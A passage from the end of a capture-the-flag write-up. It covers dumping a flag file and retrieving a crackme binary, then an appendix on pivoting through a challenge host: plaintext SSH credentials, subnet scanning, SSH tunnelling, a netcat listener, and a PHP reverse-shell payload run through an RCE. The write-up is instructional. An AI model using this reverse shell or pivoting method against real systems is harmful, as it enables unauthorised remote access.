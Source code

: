
We read the `root` directory!

We can dump the contents of `flag.txt` using the same method:
```
Send this md5 flag to: cyberchallenge2020@gmail.com with "flag" as Subject and we will contact you...

================================
a231d0273d108b9d3e00596304e2f5e0
================================
Nice Job skid :).

Now try to solve the next step...
```

And read `crackme.exe` as well (encoding it as base64), to get to the next level:

```console
root@kali:/media/sf_CTFs/hoshen/3# file crackme.exe
/root/CTFs/hoshen/crackme.exe: PE32 executable (console) Intel 80386, for MS Windows
```

## Appendix A

In the first few days of the CTF, it was possible to arrive to this challenge directly from the first challenge without decrypting the PCAP. This is a short description of how this could be done.

After logging on to `cuser@104.43.243.221` via SSH, it was possible to run `nmap` and search for additional hosts on the same subnet. `10.0.0.7`, which is the internal address of `13.67.133.176`, was one of the hosts identified. It was then possible to perform a port scan and find port 80 open.

Using SSH tunneling, it was possible to tunnel remote port 80 to a local port and view the website on a local browser:
```console
root@kali:/media/sf_CTFs/hoshen/1# sshpass -p 'Sec0ndPh@se' ssh -N -L 9999:10.0.0.7:80 cuser@104.43.243.221
```

The command above allows us to view the website on local port 9999:
```console
root@kali:/media/sf_CTFs/hoshen/1# curl -s localhost:9999/index.php | grep Hostname
<tr><td class="e">Hostname:Port </td><td class="v">13.67.133.176:80 </td></tr>
```

Since `index.php` called `phpinfo()`, it was possible to find the external address of the host. 

This also made it easier to open a reverse shell, saving the need to open ports in the router.

First, we open a listner on `10.0.0.5` (which is the internal address of `104.43.243.221`):
```console
cuser@HoshenCtf2:~$ nc -lvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
```

Then, using the RCE exploit via the website, we run the following code on `10.0.0.7`:
```php
<?php
$sock = fsockopen("10.0.0.5",4445);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```
